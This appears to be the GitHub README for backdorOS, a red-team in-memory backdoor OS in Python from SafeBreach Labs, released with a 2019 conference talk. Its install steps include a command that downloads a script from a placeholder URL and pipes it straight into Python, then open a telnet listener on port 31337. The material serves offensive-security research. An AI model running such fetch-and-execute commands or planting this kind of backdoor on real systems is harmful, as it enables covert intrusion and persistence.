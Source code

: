 # backdorOS

backdorOS is an in-memory OS written in Python 2.7 with a built-in in-memory filesystem, hooks for open() calls and imports, Python REPL etc.

## Install

```
$ git clone https://github.com/SafeBreach-Labs/backdoros
$ cd backdoros
$ ./backdoros.py &
$ telnet localhost 31337
```

OR

```
$ curl -fsSL http://URL/backdoros.py | python &
$ telnet localhost 31337

```

backdorOS was released as part of the [BackdorOS: The In-memory OS for Red Teams](https://texascybersummitii2019.sched.com/event/Tqsp/fr-2016-red-team-backdoros-in-memory?iframe=no&w=100%25&sidebar=no&bg=dark) talk given at Texas Cyber Summit 2019 conference by Itzik Kotler from [SafeBreach Labs](http://www.safebreach.com).

## Slides
Click [here](https://github.com/SafeBreach-Labs/backdoros/raw/master/BackdorOS.pdf) to download

## Version
0.1.0

## License
BSD 3-Clause
